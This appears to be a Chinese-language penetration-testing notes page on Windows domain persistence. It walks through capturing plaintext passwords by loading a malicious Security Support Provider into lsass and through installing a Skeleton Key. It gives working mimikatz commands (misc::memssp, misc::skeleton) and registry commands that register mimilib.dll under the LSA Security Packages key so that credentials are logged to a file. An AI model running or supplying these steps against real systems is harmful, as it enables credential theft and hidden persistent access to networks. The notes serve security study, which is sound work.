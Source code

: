 略

### SSP

> 更新于20200809

菜醒，想起自己权限维持还没有写，正好逛先知的时候看到了，就继续更新吧~首先，还是先奉上[文章地址](https://xz.aliyun.com/t/7432)

**基础知识**
SSP（Security Support Provider）是windows操作系统安全机制的提供者。主要用于为windows认证相关提供服务，如NTLM、Kerberos等。使用SSP进行权限维持的原理为：系统启动时，lsass.exe作为系统进程，会加载SSP（其实就是dll啦~我的简单理解就是提供认证相关的一个dll），但是如果这时候加载的是恶意的dll，就能获取到明文密码（在打了1997的补丁机器，默认WDigest不开启，在需要知道明文密码却不能破解的情况下，可以使用这个方式获取到明文密码，即便用户更改密码，也能够获取到）

**实现方式**

**1. mimikatz注入内存**

mimikatz提供了将恶意SSP注入内存的方法，既然是注入内存中，自然是不能在重启后保留。它的触发条件为用户注销后重新登录（即在机器不关闭的情况下，重新触发LSA认证），优点在于没有文件落地，直接加载到内存了，mimikatz的指令如下

```
privilege::debug
misc::memssp
```

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/ssp1.png)

在 `C:\Windows\system32\mimilsa.log` 下可以看到用户的明文密码，如下

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/mimilsa.png)

个人认为这种情况下比较少吧...或许需要在不跑服务的域内个人机器，注销当前用户来让用户自己重新输入吧...

**2. 注册表**

将mimikatz中的mimilib.dll文件copy至C:\Windows\system32目录下，并添加到注册表中即可。这里做一个朴实无华的搬运工

```cmd
copy mimilib.dll %systemroot%\system32
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

明文会被记录在 `C:\Windows\system32\kiwissp.log` 下面

**自我感想**

对于这种需要重启（注销）生效的，我比较困惑。在实际的内网渗透中，真的会使用这样的方法去捕获明文密码吗？出于困惑，去问了问群里的师傅，对于服务类的，如跑着web服务器，数据库服务器的，这种机器可能一年都不会重启一次。所以这种攻击方式，可能更加适用于域内的个人PC机，通过强制注销等来获取密码。（不过我觉得还是太过于被动了，人为触发不稳定）
这种获取明文的方式，其实和修改注册表中的WDigest值一样，需要主动锁屏，所以个人PC机上会比较好用

### **Skeleton Key**

> 相比与SSP的注销（重启）触发，Skeleton Key则是一种不需要且较好使用的方法~

使用mimikatz即可，适用版本在windows 2003 - 2012r2

```
privilege::debug
misc::skeleton
```
